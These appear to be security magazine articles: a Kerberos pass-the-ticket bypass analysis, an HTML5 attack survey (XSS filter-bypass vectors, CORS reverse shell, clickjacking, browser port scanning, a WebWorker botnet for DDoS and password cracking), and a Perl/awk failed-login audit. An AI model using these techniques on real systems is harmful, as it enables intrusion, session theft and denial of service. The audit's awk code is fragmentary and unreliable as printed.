Kerberos 协议自 1989 年以来就被认为是公开可用的协议。在过去的几十年里，大量的弱点与局限性被发现并得到及时解决或者消除。但至今仍存在两个臭名昭著的攻击方式，虽然针对协议自身没有多大威胁，但在特定的环境下即体现出其威胁性：KDC 欺骗和重放。一个更详细的攻击手法即票据传递，我们已经在真实系统中成功实施并测试通过，发现其可完全绕过部署 Kerberos 协议的 Windows 系统并获取合法认证。

- 1. KDC 欺骗

此技术自 DugSong 公布理论证明后得到安全界广泛认可。它基于恶意用户对受欺骗的 KDC 响应的可能性。由于整个 Kerberos 协议是站在一个不安全的网络环境下设计的，故一般而言，对 Kerberos 协议本身不是威胁。由此可见，事实上当 KDC 响应消息不包含任何提供给客户端 C 认证的数据，仅仅合法 KDC 可产生票据并能使用服务密钥正确解密此票据，则攻击是无效的。然而，在某些情况下此类攻击可在真实环境下实施入侵：如物理登录服务，即被认为是此类攻击中的典型“被认证的服务”。Kerberos 服务通常是运行在远程主机上的守护进程，在接受指令前需要客户端证明其身份。登录服务则不同，不存在远程主机向其发送实体认证请求。

在 Linux 系统中，如 pam_krb5 模块的第一个版本使用的快捷方式：当用户键入它的密码后，则生成 AS_REQ 请求并发送给 KDC。当收到 AS_REP 后，PAM 尝试使用用户密码导出的密钥来解密不包含票据 TGT 的消息。若解密操作及随机数校验均成功，则系统会假定客户端键入的密码正确，并允许此次访问。很显然，这种认证过程会带来一定的安全隐患，即攻击者若在物理上成功访问主机后，则有能力操纵网络通信，并插入一个随意的密码以阻碍 KDC 对客户端的响应，同时插入攻击者构造的 AS_REP 消息，此消息使用先前插入的密码导出的密钥进行加密。攻击的详细过程如图 2 所示。注意到，TGS 票据是攻击者伪造的票据，仅仅是被客户端忽略了。

Windows 及后期更高版本的 PAM 模块需要完成协议的其他步骤。在网络内每台主机的虚拟服务都在 KDC 中心创建，服务密钥被导入相应的主机。在 AS_REQ/AS_REP 步骤后，客户端主机需要向 TGS 请求特定服务器的服务票据。若使用服务器密钥能成功解密此服务票据，则整个认证过程完成，因为只有 KDC 和客户端知道此密钥。假定，TGT 已经伪造成功，则 TGS 将会……

- 2. 重放攻击

观察图 1 给出的协议认证过程可知，服务器决定是否允许客户端访问仅仅是判断 AP_REQ 消息是否有效。故协议需要阻止攻击者重放旧 AP_REQ 消息的可能性，冒充客户端请求某一特定服务，解析如图 3 所示。

这是一个很老的想法，早在 Kerberos IV 版本中就公开讨论过。已经推出了许多防范措施来解决此问题，在 RFCs 中已经给出了大量描述。

**时间戳（Timestamps）：** 认证符包含一个时间戳 Tc，当 Server 端收到后，会验证 Tc 是否在有效期内，通常为 5min，若超出时效，则拒绝此次认证请求。

**认证符 cache：** 服务器 V 通过缓存先前一定时期内的认证符（时间段大于等于 Kerberos 协议可接受的时间），以拒绝包含相同验证符的 AP_REQ，从而避免了重用有效认证符的可能性。

**票内的 IP 地址域：** KDC 可选择性向票据中插入 IP 地址列表，以判断哪个 Ticket 有效（全地址票据）。

图 3 中给出的简单重放攻击通过上面给出的方法可完全对抗，但若攻击者能实施中间人攻击，此类攻击的变种可成功地付诸实践。一旦 MITM 被激活，不是让用户认证，攻击者可阻碍认证双方的通信，捕获 AP_REQ 请求，并在 Kerberos 协议会话未过期时重新使用它。前面已经分析，若攻击者未窃取到 Victim 的 IP 地址，则使用全地址票据方式可对抗这种攻击。然而，在票据中对 IP 地址校验并不经常实施，Kasslin 已经在 Windows 2000 SP3 上做过测试，发现甚至存在全地址票据的情况下，攻击仍可成功，故可推断 Windows 2000 并没有验证包含在票据中的 IP 地址列表。还有，会话密钥 K₂ 在客户端 C 与服务端 V 之间交互时是不可泄露的。此时，K₂ 用来确保 C 与 V 之间消息通信的机密性……性和完整性，故上述攻击变得不可用，但这同样依赖每个服务的具体实现。

为了校验时间戳的有效性，Kerberos 很大程度上依赖时间同步性，但确保时间同步性并不是它的职责。系统一般会默认网络时间协议 NTP 来确保同步，尽管此协议能够提供一种安全的方式确保客户端同步，但这样的功能很少使用；并且包含准确时间的服务器响应也可能被入侵者在中间修改。由此产生的攻击可能不会立即生效，但它可能捕获到 AP_REQ，甚至在时间戳失效后重用它。因为攻击者可以成功地在 NTP server 的链接上执行一次中间人攻击，修改 NTP 响应，并向 Server 发起 AP_REQ（若在认证缓存中已经删除了此消息 AP_REQ，则此次攻击将有效）。

### Pass-the-ticket 攻击

下面我们将介绍一种成功绕过真实操作系统 Kerberos 认证的攻击手法。此攻击目标依旧围绕 Kerberos 登录服务，前面讨论过扩展的登录过程为了防止 TGS 欺骗，同样包含了 TGS_REQ 和 TGS_REP 消息的交互验证。此类攻击的假设条件等同于 KDC 欺骗攻击：首先，攻击方必须能够物理访问到目标主机，并能够伪造 KDC 消息。在目标主机与 KDC 之间需要介入一个 MITM 中间人。因为真实合法的 KDC 消息可能会在攻击者伪造的响应消息到达之前反馈给客户端，干扰攻击的进行。所以，介入中间人攻击可有效阻拦不需要的消息。攻击手法：首先，攻击人会在目标主机上截获一次合法登录通信，并捕获一张由 KDC 授权的票据；然后执行欺骗攻击，事先窃取的票据用来伪造一个 TGS_REP，此请求将在目标主机中正确解密，攻击细节如下。

- **Phase 1**：合法用户在主机上开启登录程序。Kerberos 认证的第二步，即客户端 C 向 KDC 的 TGS 请求服务票据，KDC 接收到请求验证后，会立即向 C 发送 TGS_REP 消息，此时攻击者可窃取此消息并保留票据，整个攻击过程如图 4 所示。注意，整个登录程序已经完成。
- **Phase 2**：攻击者物理访问目标主机，插入已知的客户身份名及一个随机密码，并从主机上导出一个密钥即当做用户密钥。AS_REQ 与 AS_REP 交互过程在 KDC 欺骗攻击中已经阐述；交互之后，客户端使用伪造的 TGS 票据，构造一个 TGS_REQ 请求发往 TGS。这就是为何 KDC 欺骗攻击会失败，因为 TGS 会拒绝伪造的 Ticket。而票据传递（Pass-the-ticket）攻击则会避免此事的发生，因为其会选择一个中间攻击人拦截 TGS_REQ 请求，并构造一个伪造的 TGS_REP 作为响应返回给客户端，即使用先前截获的 TGS_REP 作为内容。攻击的具体方法如图 5 所示。


### Pass-the-ticket 攻击逐一分析

我们在第 3 小节已经详细描述了票据传递攻击手法，并在部署 Kerberos 协议的 MIT 与 Microsoft 系统上做过测试，如表 1 所示给出了测试结果，发现 MIT 系统能够免疫此类攻击，但 Windows 系统存在漏洞。给出的 Windows 系统在测试之前的程序包全部更新升级，并选择 Windows Server 2008 的默认服务设置作为 Server，结果发现所有给定的配置都存在此类攻击漏洞。

| Client workstation | KDC workstation | Vulnerable |
|---|---|---|
| Windows XP SP2 | Windows Server 2008 | ✓ |
| Windows Vista Enterprise SP1 | Windows Server 2008 | ✓ |
| Windows 7 Professional | Windows Server 2008 | ✓ |
| Gentoo MIT Kerb. 1.6.3-r6 | Debian 4.0 MIT Kerb. 1.6.3 | - |

表 1 各个配置 Kerberos 协议的系统抵御票据传递攻击的表现

由表 1 可知，Linux 系统可以抵御此类攻击，KDC 运行在 Debian 4.0 系统上，且配置 MIT Kerberos 1.6.3，客户端运行在 Gentoo Linux 上，并部署 MIT Kerberos 1.6.3-r6。Windows 系统在 Phase 2 中客户端仅仅校验了服务票据是否能够解密正确，但这不足以验证发送此票据的 TGS 是真实知道此密钥的合法 TGS。图 5 的第 4 步中，客户端 C 解密伪造的 TGS 响应，并提取会话密钥 K2，使用它创建一个认证器；然后，C 将其发送给自己（以一种仿真的方式，实际上并没有消息在网络上传输），并解密获取密钥，然后使用密钥验证认证符。实际上，重用的票据包含一个旧会话密钥 K1，而认证符是客户端使用攻击者伪造的 TGS 构造出的一个密钥，即完全不同的密钥 K2；那么最后客户端 C 会尝试用不同的密钥解密，显然会导致认证失败，并终止登录过程。导致认证失败的主要原因还是归结到中间攻击人重用的 TGS_REP 中，票据 ticket 对中间人而言是透明的，他根本不知道里面存放的客户端 C 与服务器 V 之间的会话密钥，此时为了构造认证符，只能随意选择一个不同的密钥 K2 来构造。总而言之，上面的认证可以避免票据传递攻击，同时也使登录服务更吻合 Kerberos 的具体实现，因为它执行了协议的三个完整握手步骤并认证了所有接收方身份。实际上，MIT 解决方案为 Windows 的 Kerberos 实现提供了一定的参考。如图 6 所示总结了 MIT 登录过程实现及其如何防止票据传递攻击。

由图 6 可知，只有 C 的内部验证过程即 AP_REQ 与 AP_REP 之间相互校验时，C 始终使用 TGS_REP 中包含的会话密钥 K2 来解密由 C 自己构造的 AP_REQ 中的认证符，则可辨认是否是伪造的消息。因为对于中间攻击人而言，TGS_REP 中的 Ticket 是透明的，无法知道其中的会话密钥，故其只能采用不同密钥 K2 来构造认证符，发送给 C；当 C 收到此消息后，自然会使用 K2 来构造自己的认证符，但 Ticket 中保护的会话密钥却不是 K2，最终会导致解密失败，即认证失败，此类攻击也就无效。

### 小结

Kerberos 协议以一种安全且扩展性良好的方式提供网络认证，且完全跨平台。它在 Windows 系统中因其是默认的网络认证协议，故在 Windows 系统内占据重要位置。然而，必须关注其具体实现与配置。事实上，若目标网络使用了不正确的配置或偏离具体要求的实现，则很可能被攻击者利用此漏洞。本文结合了 KDC 欺骗与认证实体身份重放来伪造合法用户获得认证，完全利用了 Kerberos 协议在 Windows 系统上过度简化实现登录服务的漏洞。


图 6

前置知识：HTML

关键词：Web、攻击、HTML5


## 攻击下一代 Web 开发堆栈 HTML5

文 Lavakumar Kuppan  译 小小杉

### HTML5 跨站脚本攻击

HTML5 提供了一些新的元素和事件属性。这些事件属性能够绕过基于过滤器的黑名单验证机制（查找或替换一些字符，如“<”、“>”或类似“script”的关键字），阻止跨站脚本 XSS 攻击，从而执行 JavaScript 程序。运用新的 HTML5 音频和视频标签可以绕过某个用于查找已知恶意标签的过滤器。代码如下：

```html
<video onerror="javascript:alert(1)"><source>
<audio onerror="javascript:alert(1)"><source>
```

大多数情况下，阻止“<”和“>”标签的过滤器可以阻止标签注入攻击。如果攻击者能够将攻击脚本注入到现有的事件属性中或者增加一个新事件属性，那么攻击者仍然可以实施 XSS 攻击。HTML5 事件属性“onforminput”和“onformchange”能够绕过那些阻止现有事件属性的过滤器。例如：

```html
<form id=test onforminput=alert(1)><input></form>
<button form=test onformchange=alert(2)>X
```

HTML5 的某些新功能，如“autofocus”属性，可有助于绕过过滤器，也可用于自动执行脚本程序。一旦该属性设定，那么元素将自动获得聚焦。

现在，在输入标签属性中注入数据的情况很普遍。在传统情况下，这种 JavaScript 注入代码将被置入“onmouseover”或“onclick”标签中，同时要求用户会话执行该 JavaScript 脚本。可用 HTML5 的“onfocus”标签注入 Script 脚本，然后设置“autofocus”属性，从而自动触发脚本程序。例如：使用 HTML5 之前的程序代码如下：

```html
<input type="text" value="...>Injecting here"
onmouseover="alert('Injected value')">
```

使用 HTML5 之后的程序代码如下：

```html
<input type="text" value="...>Injecting here"
onfocus="alert('Injected value')" autofocus>
```

安全专家 Mario Heiderich 在 HTML5 安全问题快速参考表中列出了所有这样的 HTML5 向量。

## 用 COR 请求（跨源请求）反转 WebShell

HTML5 的 COR 请求允许浏览器从 a.com 网站到 b.com 网站执行跨域 Ajax 调用，并且只要 b.com 网站允许，则读取响应请求。该功能能够打通跨域 Ajax 调用之上的 HTTP 通信隧道，并设置等同于反转 Shell 的浏览器。XSS 来劫持受害者的会话信息。一般，JavaScript 有效载荷或者通过跨站脚本注入，或者通过诱导受害者在浏览器的地址栏粘贴脚本而实现。一旦将其注入到受害者的浏览器中，脚本语言就会开始通过跨源请求与攻击者的服务器进行通信。攻击者使用该连接，并将请求发送到受害者浏览器，从而浏览受害者 session 值。

2011 年年初的时候，作者发布了一个名为 “Shell of the Future” 的 XSS 漏洞开源工具，该工具就是以上观点的具体实现。该工具非常实用，其将整个攻击过程自动化，并且自带两个默认的 JavaScript 有效载荷，利用跨站脚本攻击或浏览器地址栏注入 JavaScript 以后，Shell of the Future 可进行劫持会话，利用 HTML5 支持的 Cross Origin Requests，可以绕过一些反会话劫持的方法，如 HTTPOnly 限制的 cookie、绑定 IP 地址的会话 ID 等。如图 1 所示。


图 1

### HTML5 点击劫持

#### 1. 文本域注入攻击

点击劫持可绕过跨站点请求伪造 CSRF 的保护，实现跨域 form 表单提交。尽管通过点击劫持来单击链接或按钮是很容易的，但是填充目标 form 表单的输入域却相对较困难。现在只需简单地诱导受害者执行拖放操作，就可以使用 HTML5 的拖放 API 函数（Drag and Drop API）来填充目标 form 表单。攻击者的网站可以将攻击操作伪装成游戏，该游戏要求玩家拖放数据，而与此同时受攻击者控制的不可见数据却被填充到目标 form 表单的输入框中。

```html
<div draggable="true" ondragstart="event.dataTransfer.setData('text/plain','Evil data')">
  <h3>DRAG ME!</h3>
</div>
```

此方法由 Paul Stone 在 2010 年黑帽大会 bh-EU 会议上提出。

#### 2. IFRAME 沙箱模型

现在存在一种误解，认为网站网页包含 Frame Busting 代码是预防点击劫持攻击的最好方法（网站防御点击劫持的唯一方法是使用 JavaScript 脚本）。这样的 JavaScript 脚本称为 frame busting。尽管 OWASP 用户指南明确指出该技术的问题，但该方法仍然是现今使用最广泛的技术。

如果网站针对点击劫持攻击的唯一防御方法是 Frame Busting，那么应该有几种绕过该保护的方法。例如，使用 HTML5 的 IFRAME 沙盒属性。例如：`<iframe src="http://www.victim.site" sandbox></iframe>`，设置该属性会禁用 iframe 中的 JavaScript 代码。因为 “frame busting” 依赖于 JavaScript 代码，该属性与防御技术进行了有效的中和。像 eBay、WordPress 和 PayPal 这样的知名网站仅仅使用 “framebusting” 技术进行保护，因此极易受到攻击。

#### 3. HTML5 缓存污染

HTML5 引入了名为应用程序缓存或可编程缓存的新型缓存系统。虽然传统的高速缓存设计是为了提高页面加载时间，但是应用程序缓存的目的是浏览脱机 Web 网页。因此，该缓存系统比传统缓存系统更加持久。通过攻击 HTML5 缓存，攻击者可以长时间地缓存网页，并窃取用户数据。2010 年年初，作者发布了 Imposter 新版本，其可以攻击 HTML5 的高速缓存系统。

### 4. 客户端远程文件包含 RFI

利用 COR 可执行针对 URL 的 Ajax 请求并且在 HTML 网页中包含响应请求的网站。一旦受害者单击包含攻击者控制的页面的 URL 链接，那么就可以执行客户端 RFI，从而实施跨站脚本攻击。Mari Austin 在 2010 年 7 月发现该攻击。Mobile.facebook.com 和包括 JQuery 库在内的许多网站都极易受到该攻击的威胁。

#### 5. 跨站 Posting 攻击

跨站 Posting 请求攻击是上述客户端 RFI 攻击的另一种形式。如果攻击者控制了 Ajax 请求的 URL 地址，那么攻击者就可以将合法请求重定向至自己的网站，并窃取用户的重要会话信息。即使请求站点没能响应 Ajax 请求，该攻击仍然可以执行。

#### 6. 网络侦察

跨域 XMLHttpRequests 和 WebSockets 请求可用于执行可靠的端口扫描。最新版的 Firefox、Chrome 和 Safari 均支持以上功能并且可用于内部网侦察。跨域 XHR 注入攻击（XHR 注入技术通过 XMLHttpRequest 获取 JavaScript）存在五种可能的 readyState 状态，同时 WebSocket 存在四种可能的 readyState 状态。当产生与任何服务相关的新连接时，readyState 属性的状态将随着连接状态的变化而变化。不同状态之间的转变可以确定连接的远程端口是否被开启、关闭或过滤了。

#### 7. 端口扫描

当 WebSocket 或 COR 与网站上特定 IP 地址的端口连接上时，WebSocket 的初始状态是 readyState 0，因为 COR 的状态是 readyState 1。随着远程端口状态的改变，这些初始 readyState 状态也会发生相应的变化。图 2 所示显示了远程端口状态和初始 readyState 状态持续时间之间的关系。通过观察初始 readyState 状态变化的速度，我们可以识别远程端口的状态。

| Port Status | WebSocket (ReadyState0) | COR (ReadyState1) |
|---|---:|---:|
| open (connection only ports) | <100 ms | <100 ms |
| closed | <1000 ms | <1000 ms |
| filtered | >3000 ms | >3000 ms |

图 2

现在这种端口扫描技术存在一些局限性。主要限制在于，所有浏览器都会阻止某些知名端口的连接，因此它们根本不可能被扫描。另一个限制是，与 nmap 工具执行的 socket 级扫描不同，这些都是应用级的扫描。这意味着，针对特定端口的监听，其响应和解析在本质上可能存在很大的差别。

- 现有四种类型应用程序的响应请求：
  1. 关闭连接：一旦由于协议不匹配建立起连接，应用程序将终止连接。
  2. 响应并关闭连接：与（1）相似，但在关闭连接之前它会发出一些默认响应请求。
  3. 没有任何响应请求的情况下打开连接：应用程序打开连接以获取更多数据或与协议规范相匹配的数据。
  4. 以响应请求打开连接：与（3）相似，但是发送一些默认响应请求连接，如 banner 或欢迎信息。

如图 3 所示，显示了以上四种类型的 WebSockets 和 COR 行为。

| Application type | WebSocket readyState to CORS readyState |
|---|---|
| initial connection | < 100 ms |
| connect, closeConnection | < 100 ms |
| open, with no response | ≥ 30000 ms |
| open, with response | < 100 ms (FF & Safari) / ≥ 30000 ms (Chrome) |

图 3

#### 8. 网络扫描

端口扫描技术可用于执行内部网络的横向扫描操作。由于开启端口和关闭端口均可被准确识别，因此可以设置水平扫描的端口为 3389，因为大多数公司系统的个人防火墙都不会过滤该端口。开启或关闭端口的标识表明某个特定的 IP 地址被启用了。

#### 9. 用户 IP 地址猜测

大多数连接到无线路由器的家庭用户都是给定 192.168.x.x 范围内的 IP 地址。并且路由器的 IP 地址通常都是 192.168.x.1，并且几乎都有运行在 80 或 443 端口上的 Web 管理界面。可以利用这两个特点来猜测用户的私有 IP 地址，步骤如下。

- 第 1 步：确定用户子网。
  - 通过扫描从 192.168.0.1 到 192.168.255.1 之间 IP 地址上的 80 或 443 端口实现。
  - 例如用户在 192.168.3.x 子网，可获得 192.168.3.1 地址路由器响应，从而确定子网地址。
- 第 2 步：确定 IP 地址。
  - 一旦确定子网地址，继续扫描整个网络中某个可能被个人防火墙过滤的端口（如 30000 端口）。
  - 反复从 192.168.x.2 到 192.168.x.254 进行扫描。
  - 请求来自用户系统浏览器，且个人防火墙不会阻止该请求，因此搜到用户 IP 地址时会获得响应请求（开启/关闭）。

### HTML5 僵尸病毒

每当用户单击一个链接，就会给远程站点一次执行其机器上的 JavaScript 代码的机会。大多数用户会打开多个标签，并且在浏览网页期间会一直开启这些标签。这样攻击者就会利用用户处理能力和其宽带进行恶意操作。垃圾邮件发送者，尤其是在 Twitter 这样的网站上，能够在短时间内诱导成千上万个用户单击其链接。不过 JavaScript 也有性能限制，同时也受到浏览器的沙盒模型的限制，这些都限制了其使用。

HTML5 给出了 JavaScript 线程模型——WebWorkers。其在用户未知的情况下让网站启动后台 JavaScript 线程，并且在不减速或不需要浏览器响应的情况下执行代码。

> There are two phases in building such a botnet:

#### 1. 僵尸病毒构建

一个 HTML5 僵尸病毒包括成千上万个系统，包括浏览器上打开的受攻击者控制的网页，这样就可以保证攻击持续地执行 JavaScript 代码。

- 构建僵尸病毒分两步：
  1. 找到受害者；
  2. 延长攻击的生存时间。

##### 找到受害者

- 让受害者访问一个攻击者控制的网站。实现方法有多种：
  1. 垃圾邮件；
  2. 在 Twitter 上推广；
  3. 在知名网站、论坛上执行持久性 XSS 攻击；
  4. 受感染的搜索引擎；
  5. 入侵网站。

这些都是目前 JavaScript 恶意软件编写者用来攻击受害者的方法。虽然现在自动爬虫工具可以搜索浏览器漏洞签名，从而帮助快速识别传统恶意软件，但是由于基于有效载荷的常规 JavaScript 受到沙盒模型的限制，其并不执行任何针对浏览器的攻击，因此该 HTML5 僵尸病毒不太可能被识别出来。

##### 延长执行周期

一旦攻击者访问了受害者控制的页面，就必须尽可能长时间地确保受害者在浏览器中打开此页面。这可以通过使用点击劫持和标签钓鱼攻击来实现。当加载页面时，页面会包含某个设置为 "_blank" 的属性的链接。这种链接置于使用 "document.onmousemove" 事件处理程序的鼠标指针下面。这样，当受害人单击网页中的任何地方时，一个新标签就会打开并吸引受害人的注意力。随着多个标签的打开，受害者返回到主页并关闭主页面的可能性就会减少。为了增加影响，在用户离开后可用标签钓鱼攻击技术刷新页面，并更新网站图标和外观，这样网页看起来就类似于 YouTube、谷歌或 Facebook 等热门网站，从而让受攻击对象经常打开这些网页。

#### 2. 僵尸病毒攻击技术

- 可以使用 HTML5 僵尸病毒执行以下攻击：
  1. 应用层——DDoS 攻击；
  2. 垃圾邮件；
  3. 分布式密码破解。

### 分布式拒绝服务 DDoS 攻击

应用程序级的 DDoS 攻击越来越常见，甚至像 Twitter 这样的网站也受到影响。通常这些攻击涉及大量 HTTP 请求，而服务器却无法处理。即使远程网站不支持线程，运用 WebWorkers 启动后台 JavaScript 线程仍然可以发送跨域 XMLHttpRequests 请求。求安全限制仅限于读取响应请求方面。

一个不支持跨域请求的网站也会处理这些请求，从而增加服务器的负载。像 `http://www.target.site/search_product.php?product_id=%` 这样的简单请求，当其发送大量数据时也会影响服务器性能。

一个浏览器可以用 WebWorkers CORS 向远程网站发送大量 GET 请求。在测试期间我们发现，一个浏览器大约每分钟发送 10000 个请求。即使只有 600 个僵尸主机的小子网，每秒也将发送大约 10 万个请求，而这取决于被请求页面本身。这样大量请求足以让网络崩溃。

##### 垃圾邮件

垃圾邮件主要利用大量的开放中继电子邮件服务器和僵尸病毒发送。虽然它并不是来自 JavaScript 的常规开放中继邮件服务器，但是其仍然能通过与 Web 相当的开放式中继邮件服务器发送垃圾邮件。

许多网站有反馈单元，要求用户输入姓名、电子邮件 ID、主题和反馈信息。一旦输入信息并提交表单，服务器就会将其传递到内部邮件服务器。

设计糟糕的网站在浏览器上用隐藏表单域发送信息，并覆盖外部地址。公司的邮件服务器也被配置为开放的中继模式，那么就可以伪造地址发送邮件。

由于只有 GET 请求可以通过 CORS 发送，因此反馈单元或者以 QueryString 发送，或者以 POST 参数发送数据。此外，如果它是 JSP 页面，可利用 HTTP 参数污染以 GET 方式来提交表单。

##### 分布式密码破解

密码破解一直是用 native 代码编写的高性能程序的任务。由于其相对较慢的执行率，JavaScript 从来都被认为不适合执行这样的资源密集型任务。

无论事情如何变化，现代浏览器中的 JavaScript 引擎正在变得越来越快，并且 WebWorkers 概念允许以密码破解为目的，建立专门的后台线程。在我们的测试中，可以观察到用 JavaScript 猜测密码的概率是每秒 10 万次 MD5 哈希操作。

与 native 代码相比，这个数字仍然相对缓慢。native 代码可以轻松地执行数百万次 MD5 哈希操作。现在普遍认为 JavaScript 代码大概比 native 代码慢 100~115 倍，但其具有可扩展性。100 台运行的 JavaScript 密码破解程序的机器与一台运行 native 代码破解程序的机器速度相当。

正如上面显示的一样，当前很容易建立一个由成千上万的僵尸病毒构成的网络，在后台执行我们设置好的 JavaScript 密码破解程序。利用 100 个僵尸病毒实施破解攻击的概率与 10 台相同配置的机器运行原始的密码破解程序效率相当。可以试图创建僵尸病毒，获得成千上万个类似的僵尸病毒以提供难以想象的超强计算力，从而破解密码哈希值。

Ravan 是一个分布式的 JavaScript 密码破解器，利用强大的 HTML5 WebWorkers 在后台运行 JavaScript 线程执行密码破解。当前版本支持 MD5 和 SHA 的哈希破解。当前其完全是使用纯暴力模式破解密码，当然也存在另外一种所谓的暴力破解攻击模式变种，即将暴力破解攻击模式进行多种组合之后的攻击。

虽然使用彩虹表（即一个庞大的、针对各种可能的字母组合预先计算好的哈希值的集合）可以在瞬间破解普通的 MD5 和 SHA-1 散列加密技术，但是基于 salted 哈希操作可有效抵御此类攻击，因此暴力攻击通常成为唯一的选择。

Ravan 是一个基于网页的工具，其由三部分组成：控制机（提交哈希操作的浏览器）；工作机（执行破解操作的浏览器）；Web 接口（控制机与工作机之间消息交互的代理）。控制机向 Web 接口提交哈希值，Ravan 产生一个唯一的哈希 ID 及包含此 ID 的 URL，此 URL 被发送给所有的 workers 执行真正的并发破解操作。

- 前置知识：awk、perl
- 关键词：RTX、审计、perl

## 打造 RTX 登录安全审计系统


文/图 xysky

### RTX 简介

某日，黑防某作者从某大型企业面试归来，和我们在群里闲聊，说感觉该企业内部员工都像在聊天似的，使用内部聊天工具进行交流。那家公司据我所知用的是 RTX，这里稍微科普一下。

腾讯通 RTX（Real Time eXchange）是腾讯公司推出的企业级即时通信平台。企业员工可以轻松地通过服务器所配置的组织架构查找需要进行通信的人员，并采用丰富的沟通方式进行实时沟通。用文本消息、文件传输、直接语音会话或者视频的形式满足不同办公环境下的沟通需求。关于 RTX，更多信息见 `http://rtx.tencent.com/rtx/index.shtml`。

简单来说，RTX 就像个企业版的 QQ，企业内部员工都可以用它进行交流。一般的公司会将 RTX 服务器放在公司内网，而有着许多分公司或办事处的大公司，RTX 服务器一般会放在外网，方便员工登录。RTX 登录上去可以看到整个企业的组织架构、员工的资料等，所以安全性非常重要。除了安全培训、密码复杂度之外，我们还需要一套审计系统，对 RTX 的登录操作进行审计。本文提供一个思路，打造一个 RTX 安全登录日志审计系统，大家可以把它发挥到其他应用上。

### 打造 RTX 登录审计系统简单分析

关于 RTX 服务器与客户端的安装配置本文就不说了。安装好之后，我们可以发现，在 RTX 服务端安装目录下有个 Logs 目录，里面有许多日志，其中，安全日志是存放在 Security 目录下，每天一个日志，文件名都是类似 Security_20100809.log 的形式。用记事本打开这些日志，可以清晰地看到如下类似信息：

```text
[2010-08-10 08:15:20] Uin=2209; UserName=testtx1; Addr=116.204.118.80:34305; Action=login; Mode=local; Result=0(success)
[2010-08-10 08:15:37] Uin=3310; UserName=testtx2; Addr=119.145.40.161:2484; Action=logout; Mode=local
...
[2010-08-10 12:35:08] Uin=3349; UserName=testtx3; Addr=221.6.12.34:52933; Action=login; Mode=local; Result=3(password error)
[2010-08-10 12:35:24] Uin=3349; UserName=testtx3; Addr=221.6.12.34:52936; Action=login; Mode=local; Result=3(password error)
[2010-08-10 12:35:48] Uin=3349; UserName=testtx3; Addr=221.6.12.34:52943; Action=login; Mode=local; Result=0(success)
```

这上面的信息表明来自 221.6.12.34 的用户请求登录 RTX，其 RTX 用户名为 testtx3，但失败了好几次，最后才成功。

当然，真实应用中可能没有顺序，比如 A 用户不断尝试的中间会有 B 用户的请求、C 用户的退出等，不过并不影响我们的分析。我们只需要对不断尝试登录的行为进行审计即可。

## 用 perl 简单实现

通过上面的分析，我们可以很容易地想到如何实现这个审计系统，无非就是读取日志文件，然后通过正则匹配关键字找出相应的记录，最后进行显示，当然中间存在一些处理细节问题，比如遍历目录等，这里直接给出代码：

```perl
#!/usr/bin/perl -w
use strict;
use File::Find;
my $top_dir="./";
open(T1,">rtxseclog.log") or die "failed to write $!\n";
find(\&wanted,$top_dir);
sub wanted {
  if (/Security_\d+\.log/ and -f $_ and open(my $fp,"<",$_)) {
    while (my $line=<$fp>) {
      chomp($line);
      if ($line=~/password error/) {
        print "$line\n";
        print T1 "$line\n";
      }
    }
    close $fp;
  }
}
close(T1);
```

很简单的代码，将当前目录下所有的 RTX 安全日志进行了分析，将有 password error 标识的一行取出，统一写入到 rtxseclog.log 文件中。现在知道脚本的强大了吧，用 perl 处理文本的速度是……

### 用 awk 输出简单报表

上面已经由 perl 得到一个全是带 password error 标识的 rtxseclog.log 文件了，将这个东西交给领导，不是个明智的选择，所以我们美化一下。这里我们用 awk 读取 log，然后输出为 html 文件，简单代码如下：

```awk
BEGIN {
  # Author: xl3ky@qq.com
  # 日期: 2010-12-12
  # 作用: 处理日志文件使之显示成 html 形式
  FS=" "
  print "<!DOCTYPE html ...>"
  print "<html><head>...<style>...</style></head><body>"
  print "<div class=\"wraper\"><table class=\"tb\" width=\"100%\">"
  print "<thead><tr><td width=\"30%\">TIME</td><td width=\"10%\">UserName</td><td width=\"10%\">IP Address</td><td width=\"55%\">INFORMATION</td></tr></thead>"
}
{
  ElementsNum = split($1, elements, " ")
  TIME1=elements[1]; TIME2=elements[2]
  UserName = substr(elements[4],10)
  IPADDR = substr(elements[5],6)
  ...
}
printf("\t\t<td>%s %s</td>\n",TIME1,TIME2)
#UserName
printf("\t\t<td>%s</td>\n",UserName)
#IPADDR
printf("\t\t<td>%s</td>\n",IPADDR)
#INFORMATION
printf("\t\t<td>")
for(i=6;i<=ElementsNum;i++){
    printf("%s",elements[i])
}
printf("</td>\n")
printf("%s\n","\t</tr>")
}
END {
    printf("%s\n","\t</tbody>")
    printf("%s\n","</table>")
    printf("%s\n","</div>")
    printf("%s\n","</BODY>")
    printf("%s\n","</HTML>")
}
```

```perl
}
print T1 "</tbody>\n";
print T1 "</table>\n";
```

将以上代码保存为 test.awk，然后再利用 gawk.exe 执行它，在命令行里输入（也可以做成 bat 文件运行）：`gawk -f test.awk rtxseclog.log > test.html`，即可利用 awk 分析 rtxseclog.log，其输出按照 test.awk 文件里的代码进行，最后将输出重定向到 test.html 文件，我们打开 test.html 就可以看到一个简单的报表，截个简单的效果图，如图 1 所示。


图 1

前面用脚本已经简单地实现了审计系统的部分功能，我们再进行一些改进，将不断尝试登录的用户、IP 地址进行排序并显示，主要用 perl 进行处理，用 hash 存放，然后进行排序，关键代码如下：

```perl
print T1 "<table class=\"t0\" width=\"50%\">\n";
print T1 "\t<tbody>\n";
print T1 "\t\t<thead>\n";
print T1 "\t\t\t<tr>\n";
print T1 "\t\t\t\t<td width=\"25%\">排名前十的登录失败用户</td>\n";
print T1 "\t\t\t\t<td width=\"15%\">失败次数</td>\n";
print T1 "\t\t\t</tr>\n";
print T1 "\t\t</thead>\n";
my $i=1;
my @rtxuser=sort by_value_and_key keys %rtxuser;
sub by_value_and_key{
    $rtxuser{$b} <=> $rtxuser{$a}
    or
    $a cmp $b;
}
foreach my $user (@rtxuser){
    last if $i>10;
    print T1 "\t\t<tr>\n";
    print T1 "\t\t\t<td>$user</td>\n";
    print T1 "\t\t\t<td>$rtxuser{$user}</td>\n";
    print T1 "\t\t</tr>\n";
    $i++;
}
```

显示排名前十的登录失败用户，如图 2 所示。


图 2

显示排名前十的来源 IP 地址，代码与上面类似就不再给出了，效果图如图 3 所示。


图 3

### 后续小结

还是老习惯，小结一下吧。用了 perl 和 awk，其实单纯用一种脚本就可以实现这个系统，只是为大家多提供一种思路，让大家多了解一种语言罢了。后续还可以优化的地方有：

- 可以将 RTX 的安全日志处理后存入数据库，方便后续查询、更细化的分析、制作报表等操作；
